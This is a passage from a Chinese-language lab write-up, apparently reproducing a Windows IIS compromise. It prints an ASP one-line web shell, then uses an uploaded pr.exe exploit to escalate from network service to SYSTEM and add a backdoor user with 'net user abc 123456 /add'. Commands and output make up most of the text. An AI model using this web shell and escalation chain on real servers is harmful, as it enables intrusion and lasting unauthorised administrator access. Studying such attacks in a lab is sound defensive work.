 假设我们发现其网站漏洞，并写入一句话木马，进行链接。

```asp
<%eval request("MH")%>
```

在复现的时候拿到shell执行不了cmd ,一直错误，查阅百度，是权限问题，

https://blog.csdn.net/u014270687/article/details/45798945

为了更好的复现，所以我给 cmd.exe 赋予了 everyone 完全控制权限。

或者可以自己上传cmd进行尝试。把当前终端的执行程序设置成我们上传的 cmd.exe

```cmd
setp  "C:\xxx\cmd.exe"
```

之后在终端上执行 `whoami` ,有回显了。

```
C:\Inetpub\wwwroot\> whoami
nt authority\network service
```

可以看到是 `network service` 权限。

上传 `pr.exe`,

![image-20210321171400764](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173258.png)

![image-20210321171432018](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173259.png)

```bash
C:\Inetpub\wwwroot\> pr.exe
/xxoo/-->Build&&Change By p 
/xxoo/-->This exploit gives you a Local System shell 
/xxoo/-->Usage: xxoo.exe command 


C:\Inetpub\wwwroot\> pr.exe "whoami"
/xxoo/-->Build&&Change By p 
/xxoo/-->This exploit gives you a Local System shell 
/xxoo/-->Got WMI process Pid: 1676 
begin to try
/xxoo/-->Found token SYSTEM 
/xxoo/-->Command:whoami
nt authority\system


C:\Inetpub\wwwroot\> pr.exe "net user abc 123456 /add"
/xxoo/-->Build&&Change By p 
/xxoo/-->This exploit gives you a Local System shell 
/xxoo/-->Got WMI process Pid: 1676 
begin to try
/xxoo/-->Found token SYSTEM 
/xxoo/-->Command:net user abc 123456 /add
命令成功完成。



C:\Inetpub\wwwroot\> net user

\\ROOT-032E83FDAC 的用户帐户

-------------------------------------------------------------------------------
abc                      admin                    Administrator            
Guest                    IUSR_ROOT-032E83FDAC     IWAM_ROOT-032E83FDAC     
SUPPORT_388945a0         
命令成功完成。
```